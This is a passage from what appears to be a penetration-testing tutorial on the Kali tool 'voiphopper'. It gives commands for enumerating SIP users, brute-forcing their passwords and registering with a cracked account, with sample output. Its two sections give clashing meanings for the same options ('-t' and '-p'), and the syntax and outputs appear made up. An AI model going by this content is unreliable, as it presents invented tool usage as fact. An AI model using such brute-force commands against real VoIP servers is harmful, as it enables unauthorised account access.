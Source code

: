    Output:
   ```
   [*] Enumerating users on 192.168.1.100:5060 (SIP)
   [+] Found user: alice
   [+] Found user: bob
   [+] Found user: charlie
   ```

2. **Perform a brute-force attack:**
   ```
   voiphopper -t sip -c brute_force -f usernames.txt -p 5060 192.168.1.100
   ```
   This command will perform a brute-force attack against the SIP server at `192.168.1.100` using a list of usernames from the `usernames.txt` file.

   Output:
   ```
   [*] Brute-forcing 192.168.1.100:5060 (SIP)
   [+] Username 'alice' with password 'password123' is valid
   [+] Username 'bob' with password 'letmein' is valid
   [*] Brute-force attack complete
   ```

3. **Test SIP server registration:**
   ```
   voiphopper -t sip -c register -u alice -p password123 192.168.1.100
   ```
   This command will attempt to register the user 'alice' with the password 'password123' on the SIP server at `192.168.1.100`.

   Output:
   ```
   [*] Registering user 'alice' on 192.168.1.100:5060 (SIP)
   [+] Registration successful
   ```

Note that the actual output may vary depending on the target system's response and the results of the VoIP testing.

Remember to use this tool responsibly and only on systems you have permission to test or access.





                                     ALTERNATIVE 
Another Kali Linux tool!

Voiphopper is a VoIP penetration testing tool that allows you to perform various types of attacks on VoIP systems. Here's how to use it, along with some examples and output:

**Syntax:**
```
voiphopper [options] <target_ip> <target_port>
```
**Options:**

* `-h`: Help menu
* `-v`: Verbose mode
* `-s`: Specify the SIP method to use (e.g., `REGISTER`, `INVITE`, `OPTIONS`)
* `-u`: Specify the SIP username
* `-p`: Specify the SIP password
* `-t`: Specify the timeout value (in seconds)
